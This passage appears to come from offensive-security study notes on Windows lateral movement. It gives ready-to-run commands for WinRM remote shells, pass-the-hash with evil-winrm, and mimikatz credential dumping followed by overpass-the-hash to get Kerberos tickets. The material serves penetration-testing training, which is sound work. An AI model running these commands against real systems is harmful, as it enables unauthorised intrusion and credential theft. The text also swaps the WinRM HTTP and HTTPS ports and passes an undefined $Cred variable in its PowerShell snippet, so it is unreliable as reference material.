 *Windows Remote Management (WinRM)* is an alternative to WMI for remote administration, which we can also abuse. The benefit is that we get the output of commands we run on the attacker's Windows machine, and we can even get an interactive PowerShell session directly through WinRM.

WinRM is the Microsoft version of the WS-Management protocol, and it exchanges XML messages over HTTP and HTTPS. It uses TCP port 5985 for encrypted HTTPS traffic and port 5986 for plain HTTP. For WinRM to work, you need plaintext credentials of a domain user who is a member of the Administrators or Remote Management Users group on the target host.

Abusing WinRM for lateral movement (from Windows host):

```powershell
# legacy Windows Remote Shell (winrs) tool:
winrs -r:VICTIM -u:ADMINUSER -p:PASSWORD  "cmd /c hostname & whoami"
# stdout of cmd is printed here!

# using PowerShell
# variable declaration
$victim = 'VICTIM';
$username = 'LOCALADMIN';
$password = 'PASSWORD';
# starts same as WMI, creating PSCredential object
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
# create WinRM sesson
New-PSSession -ComputerName $victim -Credential $credential
# interactive session
Enter-PSSession 1
# run specific remote commands
Invoke-Command -ComputerName $victim -Credential $Cred -ScriptBlock { cmd.exe }
```

Abusing WinRM from Kali (allows pass the hash):

```sh
# interactive shell as admin user using PtH
evil-winrm -i VICTIM_IP -u ADMINUSER -H NTHASH

# or with password auth
evil-winrm -i VICTIM_IP -u ADMINUSER -p PASSWORD
```


### 5.3.3 Overpass-the-Hash

Overpass-the-hash is when you use an NTLM (or AES256) hash to obtain a Kerberos TGT in an environment where NTLM authentication is not allowed. Once you have the impersonated-user's TGT, you can use all the Windows tools/services that rely on Kerberos in the context of that user (e.g. PsExec)

**NOTE**: Because Kerberos relies on domain names, you must use those for any commands instead of IP addresses (set your `/etc/hosts` file).

```powershell
# using mimikatz
privilege::debug

# grab hash:
sekurlsa::logonpasswords

# perform overpass-the-hash, starting powershell window as user
# alternatively, kick off reverse shell
sekurlsa::pth /user:USER /domain:DOMAIN /ntlm:NTHASH /run:powershell

# in new powershell session, interact to get/cache TGT (and TGS):
net use \\VICTIM

# inspect that you have TGT now
klist
```